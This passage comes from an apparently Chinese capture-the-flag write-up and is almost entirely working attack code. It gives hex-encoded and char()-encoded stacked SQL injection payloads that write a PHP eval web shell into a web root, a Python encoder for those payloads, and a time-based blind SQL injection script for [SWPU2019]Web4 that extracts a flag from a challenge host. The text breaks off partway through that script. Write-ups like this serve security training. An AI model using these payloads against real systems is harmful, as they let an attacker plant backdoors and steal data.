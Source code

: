 ```
set @a=0x73656C65637420273C3F706870206576616C28245F504F53545B636D645D293B3F3E2720696E746F206F757466696C6520272F7661722F7777772F68746D6C2F66617669636F6E2F7368656C6C2E706870273B;
prepare test from @a;
execute test;
```

也可以用chr()

```python
s = "select '<?php eval($_POST[cmd]);?>' into outfile '/var/www/html/favicon/shell2.php';"
l = []
for i in s:
    l.append(str(ord(i)))
result = 'char('+','.join(l)+')'
print(result)
```

```
1;set @a=char(115,101,108,101,99,116,32,39,60,63,112,104,112,32,101,118,97,108,40,36,95,80,79,83,84,91,99,109,100,93,41,59,63,62,39,32,105,110,116,111,32,111,117,116,102,105,108,101,32,39,47,118,97,114,47,119,119,119,47,104,116,109,108,47,102,97,118,105,99,111,110,47,115,104,101,108,108,50,46,112,104,112,39,59);prepare test from @a;execute test;
```

# [SWPU2019]Web4

- 十六进制预处理sql注入
- 堆叠注入

![image-20220217232120659](https://img-blog.csdnimg.cn/img_convert/956284c3afa84d7f3dc7596fde313a9e.png)

```python
import time
import requests
import json


def str_to_hex(str):
    return ''.join(hex(ord(c)).replace('0x', '') for c in str)

def binary(iterator, cu ,comparer):
    time.sleep(0.5)#必须要加，也不知道为什么，也不是429，但不加就乱码，而且要多跑几次
    startTime = time.time()
    waitSeconds = 2  # 等待时间
    checkSeconds = 0.2  # 容忍时间
    target = 'http://0a5d1c32-a986-4421-ab81-fba57cded578.node3.buuoj.cn/index.php?r=Login/login'
    payload = "a';SET @a=0x{0};PREPARE run from @a;EXECUTE run-- -"
    datas = {"username" : payload.format(str_to_hex("select if(ascii(substr((select flag from flag),{},1)){comparer}{},sleep({}),1)".format(iterator, cu, waitSeconds, comparer=comparer))), "password" : "123"}
    r = requests.post(target, data=json.dumps(datas))
    # print(r.text)
    # print(r.status_code)
    if (abs(time.time() - startTime - waitSeconds) < checkSeconds):
        return True
    else:
        return False

def test(iterator):
    l = 0
    r = 255
    while (l <= r):
        cu = (l + r) // 2
        if (binary(iterator, cu, "<")):
            r = cu - 1
```